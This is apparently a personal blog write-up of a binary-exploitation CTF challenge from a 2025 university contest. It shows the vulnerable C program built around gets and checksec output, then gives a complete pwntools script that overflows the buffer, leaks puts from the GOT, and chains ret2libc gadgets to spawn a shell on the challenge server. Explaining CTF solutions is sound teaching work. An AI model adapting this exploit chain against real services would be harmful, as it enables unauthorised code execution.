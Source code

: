 ```yaml
---
title: "CTF The ACE 2025 Writeup"
pubDate: 2025-09-12
description: 'A local CTF hosted by Universitas Diponegoro from Indonesia to celebrate "The Anniversary of Computer Engineering Diponegoro University 2025", I solved one binary exploitation challenge.'
tags:
  - ctf
  - pwn
  - got
  - ret2libc
---
```



# From the Start

<PostFileDownload name="2025-theace-fromthestart.zip" />

This challenge was nice enough to give source code!

```c
#include <stdio.h>

__attribute__((constructor)) void init(){
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
}

__attribute__((naked)) void helper(){
    __asm__(
        "pop %rdi\nret\n"
        "pop %rsi\nret\n"
        "pop %rdx\nret\n"
    );
}

int main(){
    init();
    char mem[0x100];
    puts("pwning from the start okay?");
    gets(mem);
    return 0;
}
```

```
$ checksec chall
[*] './chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

No protections all over, given free gadgets, and in the dist we are also given the Dockerfile so I could easily just grab the libc, this makes a ret2libc attack way easier to do.

The plan is now as follows:

1. Buffer overflow using insecure `gets` and take over RIP
2. Leak libc somehow
3. Ret2libc

RIP offset was found at 264 bytes, so now the next thing to do is to leak libc. Given the GOT Entry for puts, I can easily leak it to find offset of libc.

After that, just hook everything up to a classic ret2libc payload and get flag!
Here is the full script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: wintertia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'chall_patched')
context.terminal = ['tmux', 'splitw', '-h']
# context.log_level = 'debug'

host = args.HOST or '117.53.46.98'
port = int(args.PORT or 10000)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *main+65
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()
libc = ELF('./libc.so.6', checksec=False)

OFFSET = 264
POP_RDI = 0x00000000004011ad
POP_RSI = 0x00000000004011af
POP_RDX = 0x00000000004011b1
RET = 0x000000000040101a

payload = flat(
    cyclic(OFFSET, n=8),
    POP_RDI,
    exe.got['puts'],
    exe.plt['puts'],
    exe.sym['main'],
)

io.sendlineafter('?', payload)
io.recvuntil(b'\n')
leak = unpack(io.recv(6).ljust(8, b'\x00'))
log.info(f'Leaked puts address: {hex(leak)}')
libc.address = leak - libc.sym['puts']

BINSH = libc.search(b'/bin/sh').__next__()
SYSTEM = libc.sym['system']

log.info(f'Libc base address: {hex(libc.address)}')
payload = flat(
    cyclic(OFFSET, n=8),
    POP_RDI,
    BINSH,
    RET,
    SYSTEM,
)
io.sendlineafter('?', payload)

io.interactive()
```

Here it is being solved locally:

![local solve of challenge](../../images/2025/theace.png)
